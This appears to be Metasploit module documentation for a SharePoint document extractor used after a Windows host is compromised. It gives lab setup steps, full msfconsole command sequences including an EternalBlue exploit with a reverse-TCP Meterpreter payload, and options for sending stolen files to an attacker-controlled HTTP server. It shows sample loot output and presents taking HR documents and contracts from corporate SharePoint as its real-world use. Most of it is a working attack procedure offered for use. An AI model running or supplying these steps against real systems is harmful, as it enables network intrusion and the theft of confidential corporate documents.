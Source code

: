 # SharePoint Document Library Enumerator and Extractor

This document provides detailed instructions for setting up, verifying, and using the `post/windows/gather/sharepoint_document_extractor` module in Metasploit. It’s designed to help someone troubleshoot the module if it stops functioning with specific links and examples for clarity.

<!-- ## Vulnerable Application -->

This module targets Microsoft SharePoint Server installations on Windows systems. It requires a compromised Windows session (e.g., via Meterpreter) with access to SharePoint’s .NET assemblies (`Microsoft.SharePoint.dll`), which are included in a standard SharePoint installation.

### Setup Instructions
- **Supported Versions:** Tested on SharePoint Server 2016 and 2019. Future versions (e.g., SharePoint Server Subscription Edition) should work if the .NET API remains compatible.
- **Operating System:** Windows Server (e.g., 2016, 2019, 2022).
- **Installation:**
  1. **Obtain SharePoint Server:**
     - As of 2025, trials are available from Microsoft’s Evaluation Center (https://www.microsoft.com/en-us/evalcenter/). If links break, check the Wayback Machine (https://archive.org).
     - Example: SharePoint Server 2016 trial ISO (SHA256: check Microsoft archives if available).
  2. **Install on a Windows Server VM:**
     - Use VirtualBox or VMware with 8GB RAM and 100GB disk recommended.
     - Follow Microsoft’s setup guide: https://learn.microsoft.com/en-us/sharepoint/install/install-sharepoint-server (or archived versions if unavailable).
     - Default installation includes required .NET assemblies; no special configuration beyond site setup is needed.
  3. **Configure a SharePoint Site:**
     - Create a site (e.g., `http://<server_ip>`) via SharePoint Central Administration.
     - Add a document library named “Documents” (default) and upload test files (e.g., `test.pdf`, `doc1.docx`, each <10MB).
- **Dependencies:** Requires .NET Framework 4.5+ and SharePoint assemblies (`Microsoft.SharePoint.dll`), standard with SharePoint installs.

<!-- ## Verification Steps -->

1. **Install SharePoint:**
   - Set up SharePoint Server on a Windows VM as described above.
   - Upload test files (e.g., `test.pdf`, `doc1.docx`) to the “Documents” library.
2. **Start `msfconsole`:**
   
   msfconsole
Load the Module:

use post/windows/gather/sharepoint_document_extractor
Set Options:

set SESSION <session_id>  # Replace with your session ID from 'sessions -l'
set SITE_URL http://<target_ip>
set LIBRARY Documents
Run the Module:

run
Expected Result: Files are extracted to loot (Meterpreter) or sent via HTTP:

[*] Generating SharePoint document extractor payload...
[*] Executing payload on target session 1...
[*] Info: Enumerating:Documents:2 items
[+] Saved test.pdf to /root/.msf4/loot/20250317_123456_test.pdf
[+] Saved doc1.docx to /root/.msf4/loot/20250317_123457_doc1.docx
[*] Post module execution completed
<!-- ## Options -->
SITE_URL
Description: The full URL of the SharePoint site to target (e.g., http://192.168.1.100).
Usage: Must match the target’s SharePoint site exactly, including port if non-standard (e.g., http://192.168.1.100:8080). Use http:// (not https://) unless SSL is configured and accessible from the compromised session.
Default: http://sharepoint.local (update based on your test environment).
LIBRARY
Description: The name of the SharePoint document library to extract files from (e.g., Documents).
Usage: Must match an existing library on the target site. Case-sensitive in some SharePoint versions—verify via the SharePoint web interface.
Default: Documents (common default library name).
EXFIL_METHOD
Description: Specifies the method to exfiltrate files: METERPRETER (stores files as loot) or HTTP (sends files to an attacker-controlled server).
Usage: Set to METERPRETER for local loot storage or HTTP with EXFIL_HOST and EXFIL_PORT for remote transfer.
Default: METERPRETER.
EXFIL_HOST
Description: The IP or hostname of the attacker’s server for HTTP exfiltration (e.g., 192.168.1.101).
Usage: Required if EXFIL_METHOD is HTTP. Must be reachable from the target (e.g., run python3 -m http.server 8080 on Kali).
Default: Empty (not set).
EXFIL_PORT
Description: The port on the EXFIL_HOST for HTTP exfiltration (e.g., 8080).
Usage: Match the port of your HTTP server. Ensure no firewall blocks it on the target network.
Default: 8080.
MAX_SIZE
Description: Maximum file size (in bytes) to exfiltrate (e.g., 10485760 = 10MB).
Usage: Adjust to filter larger files; files exceeding this are skipped with a “SKIP:SizeExceeded” message.
Default: 10485760 (10MB).
<!-- ## Scenarios -->
SharePoint 2016 on Windows Server 2016 with Meterpreter Exfiltration
This scenario simulates extracting sensitive documents from a SharePoint server in a corporate network after gaining a Meterpreter session.

Steps:
Compromise the Target:
Use an exploit to gain a Meterpreter session:

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.101
set LPORT 4444
exploit
Confirm session: sessions -l (e.g., ID 1).
Load and Configure the Module:

use post/windows/gather/sharepoint_document_extractor
set SESSION 1
set SITE_URL http://192.168.1.100
set LIBRARY Documents
Run the Module:

run

Output:

[*] Generating SharePoint document extractor payload...
[*] Executing payload on target session 1...
[*] Info: Enumerating:Documents:3 items
[+] Saved report.pdf to /root/.msf4/loot/20250317_123456_report.pdf
[+] Saved memo.docx to /root/.msf4/loot/20250317_123457_memo.docx
[*] Post module execution completed
Notes:
Troubleshooting: If files don’t extract, verify SITE_URL is reachable from the target (execute -H -i -f cmd.exe then ping 192.168.1.100). Check Microsoft.SharePoint.dll in C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\<version>\ISAPI\.
Real-World Use: Extracting HR documents or contracts from a corporate SharePoint instance post-compromise.